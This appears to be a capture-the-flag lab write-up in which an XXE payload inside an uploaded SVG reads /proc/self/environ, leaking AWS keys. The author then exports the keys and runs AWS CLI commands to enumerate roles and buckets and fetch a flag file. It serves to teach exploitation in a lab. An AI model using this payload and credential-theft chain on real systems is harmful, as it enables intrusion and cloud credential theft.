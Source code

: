 # File Upload XXE to Initial Access

As a first step, we have the ip address of the machine where we will perform an nmap scanning

nmap -sV -sC -Pn 52.52.110.46
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up.png)

we go inside 52.52.110.46:80 
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up2.png)
and go to the upload section

where we can insert documents or PDF,SVG,PNG,DOC
Now let's try inserting a PDF file 
We start by downloading the target PDF file from the specified S3 bucket. The file can be found at the following URL:
https://huge-logistics-dump.s3.us-west-1.amazonaws.com/uploads/file_XsbYgmXZ5n.pdf
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up3.png)
To exploit the XXE vulnerability, we need to inject a reference to an external entity into an XML document. This will cause the XML parser to read from a local file, such as /proc/self/environ, which contains environment variables that could include sensitive AWS credentials.

The XML payload can be constructed as follows:
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE replace [
    <!ENTITY xxe SYSTEM 'file:///proc/self/environ'>
]>
<svg>
    <text>&xxe;</text>
</svg>
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up4.png)
This code injects the contents of /proc/self/environ (which includes environment variables) into an SVG document. The XXE vulnerability allows you to extract sensitive information, such as AWS access keys, session tokens and other environment variables.

![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up5.png)
Lambda functions can access environment variables in the file /proc/self/environ. To retrieve sensitive data such as AWS credentials, you can export these environment variables:

export AWS_ACCESS_KEY_ID="<access_key>"

export AWS_SECRET_ACCESS_KEY="<secret_key>"

export AWS_SESSION_TOKEN="<secret_token>"

# ATTENTION

Important Notes:

![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup6.png)

Be sure to exclude the SHLVL parameter, as it may interfere with AWS credentials.
AWS session tokens are base64 encoded, so be sure to copy the entire token, including the final = or == characters.
AWS credentials beginning with AKIA indicate long-term keys, while those beginning with ASIA are temporary session keys that require a session token.
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup7.png)

To obtain AWS entity information, run the following command:


aws sts get-caller-identity
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup8.png)
If you already know the name of the role, you can obtain the details of the role using the command:

aws iam get-role --role-name S3PutObjectRole


This command returns the JSON output shown below and the role description refers to a new bucket named logistics-processing bucket. 
{
    "Role": {
        "Path": "/",
        "RoleName": "S3PutObjectRole",
        "RoleId": "AROARSCCN4A3XDUV2IJGA",
        "Arn": "arn:aws:iam::107513503799:role/S3PutObjectRole",
        "CreateDate": "2023-10-30T06:34:05Z",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "Service": "lambda.amazonaws.com"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        },
        "Description": "Allows Lambda functions to write objects in the huge-logistics-dump bucket and read from the huge-logistics-processing bucket.",
        "MaxSessionDuration": 3600,
        "RoleLastUsed": {
            "LastUsedDate": "2023-11-22T16:51:21Z",
            "Region": "us-west-1"
        }
    }
}

This reveals a SQLite database called data-service.sqlite . 
SQLite is a popular and easy-to-use relational database system that developers often incorporate into their applications.

To see the files contained in the huge-logistics-processing bucket, use the command:

aws s3 ls huge-logistics-processing --recursive --human-readable --summarize

This command will list all the files in the bucket, showing their size in a readable format and a summary of the information.

In the bucket there is a file called flag.txt, you can retrieve it with the command:

![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup9.png)

 aws s3 cp s3://huge-logistics-processing/TEMP-IT/flag.txt -

The - symbol at the end of the command indicates that you want to display the contents of the file directly in the terminal, instead of copying it to a local file

If you prefer to save the file locally, you can do so:
aws s3 cp s3://huge-logistics-processing/TEMP-IT/flag.txt /path/to/local/flag.txt
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup10.png)
naturally replace /path/to/local with the path you wish to save the file.

# FLAG FOUND!!!
